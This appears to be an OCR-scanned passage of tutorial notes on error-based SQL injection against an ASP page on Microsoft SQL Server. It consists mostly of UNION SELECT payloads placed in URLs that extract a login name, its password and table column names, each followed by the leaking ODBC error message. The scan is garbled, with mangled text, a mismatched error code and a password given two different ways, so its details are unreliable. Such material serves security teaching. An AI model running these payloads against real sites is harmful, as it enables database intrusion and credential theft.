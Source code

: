 ```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'sys_login' to a column of data type int.
/index.asp, line 6
```

- The next step, obtain a `login_name` from the `sys_login table`:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 login_name FROM sys_login --
  ```
  - The resulting **ODBC error message**:
    - provides the login name `whiteknight` from the `sys_login` table

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL ServerJSyntax error converting the nvarchar value 'whiteknight' to a column of data type int.
/index.asp, line 6
```

- To obtain the password for whiteknight:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 password FROM sys_login
  where login_name='whiteknight' --
  ```
  - The corresponding **ODBC error message**: gives the password for whiteknight is revealed: `rlkfoo3`.

```bash
Microsoft OLE DB Provider for ODBC Drivers error '80040907'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'rlkfooB' to a column of data type int.
/index.asp, line 6
```

---

### Acquiring Table Column Names

Once table identified, obtaining the column names provides valuable information concerning the table and its contents.

Examples:
- acquire column names by accessing the database table `INFORMATION_SCHEMA.COLUMNS`.
- The injection attack begins with the URL:
  ```sql
  https://page/index.asp?id=20 UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_NAME= 'parts' --
  ```

  - The corresponding **ODBC error message**: gives the first column name in `Parts` table as `partnum`

  ```bash
  Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
  [Microsoft] [ODBC SQL Server Driver] [SQL ServerJSyntax error converting the nvarchar value 'partnum' to a column of data type int.
  /index.asp, line 6
  ```
